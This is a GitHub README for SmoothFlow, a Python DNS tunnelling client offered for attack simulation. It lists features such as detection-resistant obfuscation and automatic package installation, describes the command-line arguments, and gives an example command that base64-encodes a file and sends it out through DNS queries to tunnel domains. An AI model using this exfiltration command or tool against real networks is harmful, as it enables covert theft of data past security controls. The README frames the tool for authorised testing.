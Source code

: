 

# SmoothFlow - Advanced DNS Tunnel Application

SmoothFlow is an advanced DNS tunnel application developed for attack simulation purposes. It enables seamless and secure data transmission by encapsulating data within DNS queries, offering robust obfuscation and uninterrupted connectivity. The application is designed to be highly resilient against detection by security infrastructure, making it a valuable tool for testing and analyzing network security and data privacy. Key features include advanced encryption, adaptive protocol handling, and an intuitive interface.

## Features

- **Robust Data Obfuscation:** Encapsulates data in DNS queries to ensure robust obfuscation.
- **Seamless Connectivity:** Maintains uninterrupted connectivity for data transmission.
- **Cross-Platform Cache Management:** Clears DNS cache on both Windows and Linux systems.
- **Flexible Domain and DNS Configuration:** Customizable DNS server IPs, ports, and query types.
- **Error Handling and Logging:** Comprehensive logging for debugging and monitoring.
- **Automatic Package Installation:** Required Python packages are automatically installed when the script runs if they are missing.
- **Server Component:** A server-side component is planned to be added in a future update.

## Installation

To get started, you need to install the required Python packages. SmoothFlow will automatically install missing packages as needed.

### Requirements

- Python 3.6 or higher
- Required Python packages are automatically installed when the script runs if they are missing.
- The following Python packages:
  - `cryptography==39.0.1`
  - `dnspython==2.0.0`
  - `yagmail==0.15.293`
  - `tqdm==4.46.0`

### Installation Steps

1. Clone the repository:

    ```bash
    https://github.com/ebubekirbbr/SmoothFlow
    cd SmoothFlow
    ```

2. Run the script. The script will handle package installation if required:

    ```bash
    python SmootFlowClient.py --dnsips <dns_ips> --dnsport <dns_port> --tunneldomains <tunnel_domains> --filepath <file_path> --querytype <query_type> --timeout <timeout>
    ```

## Usage

Run the script with the necessary arguments:

```bash
  cd src_client
  python SmootFlowClient.py --dnsips <dns_ips> --dnsport <dns_port> --tunneldomains <tunnel_domains> --filepath <file_path> --querytype <query_type> --timeout <timeout>
```

### Arguments

- `--dnsips`: Comma-separated list of DNS server IPs.
- `--dnsport`: DNS server port (default is 53).
- `--tunneldomains`: Comma-separated list of tunnel domains.
- `--filepath`: Path to the file to be encoded and transmitted.
- `--querytype`: DNS query type (default is 'A').
- `--timeout`: Timeout for DNS queries (default is 1 second).

### Example

```bash
  cd src_client
  python SmootFlowClient.py --dnsips 8.8.8.8,8.8.4.4 --dnsport 53 --tunneldomains example.com,example.net --filepath ../example_files/MeetingNotes.pdf --querytype A --timeout 1
```

## Example Files

Files in the `example_files` directory contain completely fake data and do not include any confidential information. These files can be used for testing purposes.


## Details

- **Encoding and Transmission:** The application encodes the file in base64 and splits it into DNS queries.
- **File Size Requirement:** The file should be at least 10KB in size for testing purposes.
- **Logging:** Logs detailed information and errors to help with debugging.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer

SmoothFlow is intended for educational and testing purposes only. Ensure you have permission to test DNS tunneling on any network you use.

